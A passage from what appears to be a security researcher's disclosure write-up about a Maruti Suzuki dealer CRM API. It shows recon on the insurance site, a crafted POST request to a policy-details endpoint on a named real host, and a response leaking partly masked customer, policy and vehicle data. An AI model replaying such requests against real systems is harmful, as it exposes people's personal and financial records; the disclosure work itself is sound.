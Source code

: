 - policyNo
- vinNo

It was easy to retrieve vehicle `vinNo` from many different API calls like previously described `customerdetails` API but there was no information of the policyNo. We did little recon on insurance website for Maruti Suzuki which led us to  `https://www.marutisuzukiinsurance.com`. We only needed the policy number and luckily the webiste provided that value with just the registered mobile number of the registered user. 

![alt text](https://raw.githubusercontent.com/rtvkiz/rtvkiz.github.io/refs/heads/main/_posts/policy-page.png)

There were often multiple ways to retrieve the same values across different APIs. For instance, a `vinNo` could be obtained either from the vehicle details API or the customer info API. Leveraging this, we crafted a request to the `getpolicydetailsmarutinew` endpoint.

```
POST /api/insurancedetails/getpolicydetailsmarutinew HTTP/1.1 
Host: smr.dealercrm.co.in 
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 <TOKEN>

 
{"policyNo":"98000031240115******","vinNo":"MA3EYD81S01*****"}
```

Response:

```
{
  "error": false,
  "errors": null,
  "data": {
    "antitheftDeviceAvl": "Y",
    "allMobileAndPhoneNumber": "805879****",
    "applicableBonus": "35",
    "autoMembership": "N",
    "bangladeshCov": "N",
    "bhutanCov": "N",
    "bifuelIdv": "0",
    "bifuelKit": "N",
    "cancellationStatus": null,
    "chassisNo": "1012985",
    "chequeAmo": "3382",
    "chequeDate": null,
    "chequeNum": "54709***",
    "claimCount": 0,
    "cityOfReg": "JAIPUR",
    "clientType": "INDIVIDUAL",
    "cngKitName": 0,
    "cngLpgKitValue": "N",
```